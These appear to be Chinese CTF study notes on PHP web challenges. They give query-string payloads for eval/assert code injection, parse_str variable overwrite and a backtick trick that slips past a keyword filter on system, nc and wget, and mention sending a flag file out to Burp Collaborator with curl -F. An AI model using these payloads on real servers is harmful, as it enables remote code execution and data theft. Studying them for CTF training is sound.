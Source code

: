 * 如果过滤了特殊符号

==FilesystemIterator()==:获取指定目录下的所有文件

==getcwd()==:获取当前路径

` ?v1=FilesystemIterator&v2=getcwd`

## 变量覆盖
* ==parse_str($v1,$v2)==

查询字符串解析到变量中

```php
 <?php
$v1="flag=111";
 parse_str($v1,$v2);
echo $v2['flag'];
?>         //输出111
```
* ==$_SERVER['argv']==

服务器查询字符串

> ?$fl0g=flag_give_me;
>
> fun=eval($a[0])

  相当于：eval($fl0g=flag_give_me;);**注意里面是一个变量赋值语句，要加分号**

或者使用`parse_str`解析变量

> ?a=1+fl0g=flag_give_me        post:fun=parse_str($a[1])

使用assert执行字符串中的 PHP 代码，不用加分号
> ?$fl0g=flag_give_me           fun=assert($a[0])


* 全局变量
如果有& 
函数内部无法调用外部的变量
`v2=GLOBALS`

### eval()与substr()
```php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    } 
```
> payload:?F=\`$F\`;+sleep(3)

### curl -F

> curl -F 将flag文件上传到Burp的 Collaborator Client 
